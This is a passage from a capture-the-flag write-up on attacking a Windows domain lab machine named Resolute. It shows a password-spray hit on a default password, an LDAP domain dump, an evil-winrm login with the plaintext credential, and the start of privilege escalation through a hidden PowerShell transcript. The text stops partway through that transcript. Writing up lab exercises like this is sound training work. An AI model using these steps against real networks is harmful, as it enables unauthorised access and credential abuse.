 ```bash
[-] 10.10.10.169:445      - 10.10.10.169:445 - Failed: 'megabank\naoki:Welcome123!',
[*] 10.10.10.169:445      - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

We get a hit! The user Melanie is using the default password.

We can now use ldapdomaindump as an authenticated user to learn more about the system. 

```bash
❯ ldapdomaindump -u megabank\melanie 10.10.10.169
Password: 
[] Connecting to host...
[] Binding to host
[+] Bind OK
[*] Starting domain dump
[+] Domain dump finished
```

This outputs a number of files, the USER file gives us more info about the users and which groups they are members of.
Melanie is in the Remote Management Users group, which means we should be able to use evil-winrm to login as Melanie. Also of interest is the user ryan who is a member of the Contractors group, which is in turn a member of DnsAdmins and Remote Management Users.

Lets login as Melanie.

```bash
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```

Navigate to C:\Users\Melanie\Desktop\user.txt for the user flag.

### PrivEsc

I tried running winPEAS but this didn't return anything useful.
After looking around the filesystem I eventually found a hidden directory C:\PSTranscripts
To see hidden files in Powershell use:

```bash
Get-ChildItem -Force
```

In this directory there is a log file:

```
**********************
Windows PowerShell transcript start
Start time: 20191203063201
Username: MEGABANK\ryan
RunAs User: MEGABANK\ryan
Machine: RESOLUTE (Microsoft Windows NT 10.0.14393.0)
Host Application: C:\Windows\system32\wsmprovhost.exe -Embedding
Process ID: 2800
PSVersion: 5.1.14393.2273
PSEdition: Desktop
PSCompatibleVersions: 1.0, 2.0, 3.0, 4.0, 5.0, 5.1.14393.2273
BuildVersion: 10.0.14393.2273
CLRVersion: 4.0.30319.42000
WSManStackVersion: 3.0
PSRemotingProtocolVersion: 2.3
SerializationVersion: 1.1.0.1
**********************
Command start time: 20191203063455
**********************
PS>TerminatingError(): "System error."
>> CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="-join($id,'PS ',$(whoami),'@',$env:computername,' ',$((gi $pwd).Name),'> ')
```